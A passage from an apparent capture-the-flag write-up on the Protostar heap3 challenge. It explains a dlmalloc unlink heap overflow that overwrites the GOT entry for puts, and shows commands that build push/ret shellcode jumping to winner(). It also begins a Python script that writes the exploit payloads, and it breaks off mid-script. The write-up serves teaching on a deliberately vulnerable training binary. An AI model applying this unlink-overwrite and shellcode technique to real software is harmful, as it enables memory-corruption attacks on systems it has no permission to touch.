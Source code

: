   FD = P->fd;               \
  BK = P->bk;               \
  FD->bk = BK;              \
  BK->fd = FD;              \
}
{% endhighlight %}
`FD->bk = BK` can be used for exploit. Where `FD->bk` can be `GOT` address of `puts` call later on. Note `BK` on RHS should also be writeable memory as `BK->fd = FD` call is also made later on. So `BK` cannot be address if `winner()` but it can be address if shellcode placed in our heap.
Now, the size of our chunk has to be greater than `100` or `0x64` else dl-malloc switches to `fastbins` which are implemented in somewhat different manner and this exploit cannot be used for it.
A smart way of doing so is mentioned in [phrack-article-Once-upon-a-free()][phrack-once-upon-a-free-link]. If size is kept as `-4(0xfffffffc)` it has two benefits. 

1. We will be using `strcpy` to pass our values to heap. Since `strcpy` is `\x00(null)` terminated, our input string cannot have `\x00`. On a 32-bit system `0xfffffffc` overflows maximum signed size and is interpreted as `-4` which will have no `\x00`.
2. Start of previous free chunk is found by subtracting current chunk size from start ie `start-currentchunk - size-currentchnk`. So if size is `-4` this will put start of prev chunk 4 byte after start of current chunk.

We find address of `winner()` and create shellcode for it and then convert it to hex.
{% highlight shell %}
user@protostar:~$ objdump -t /opt/protostar/bin/heap3  | grep winner
08048864 g     F .text	00000025              winner
rawat@rawat-VirtualBox:~$ cat temp.asm 
push 0x08048864
ret
rawat@rawat-VirtualBox:~$ nasm -felf temp.asm 
rawat@rawat-VirtualBox:~$ objdump -D ./temp.o |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x68\x64\x88\x04\x08\xc3"
{% endhighlight %}
With all above knowledge we can now create our exploit input.
{% highlight cpp %}
#!/usr/bin/python

# usage:
# run this script, then start heap3 as:
# ./heap3 $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
# the script will write /tmp/[A,B,C] payloads

import struct

# first argument
buf1 = ''
buf1 += 'AAAA' # unused

# second argument
buf2 = ''
buf2 += '\xff'*16
buf2 += "\x68\x64\x88\x04\x08\xc3" # shellcode
buf2 += '\xff'*(32-len(buf2))
# overwrite prev_size and size of the last chunk with -4